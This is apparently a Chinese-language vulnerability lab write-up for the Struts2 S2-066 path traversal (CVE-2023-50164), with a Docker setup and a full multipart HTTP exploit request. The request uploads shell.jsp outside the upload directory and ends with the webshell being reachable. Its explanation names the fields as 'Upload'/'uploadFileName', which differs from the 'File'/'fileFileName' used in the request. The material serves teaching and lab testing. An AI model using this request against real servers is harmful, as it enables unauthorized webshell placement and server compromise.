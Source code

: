 # Struts2 S2-066 路径穿越漏洞（CVE-2023-50164）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

Apache Struts2 S2-066 是一个存在于文件上传功能中的路径穿越漏洞。攻击者可以通过操纵表单字段名称的大小写，将文件上传到预期上传目录之外的位置。

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：

1. 使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"）
2. 提供一个包含目标路径穿越文件名的单独表单字段

这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## 环境搭建

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞利用步骤

首先，尝试将 JSP 文件上传到正常的上传目录：

![普通上传](1.png)

虽然文件上传成功，但由于服务器配置，JSP 代码无法在上传目录`upload/`中执行：

![执行失败](2.png)

使用以下请求，利用 S2-066 漏洞将文件上传到上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 表单字段名使用首字母大写（"Upload"）
- 单独的 "uploadFileName" 字段包含路径穿越的 payload：`../shell.jsp`

![成功上传](3.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](4.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。

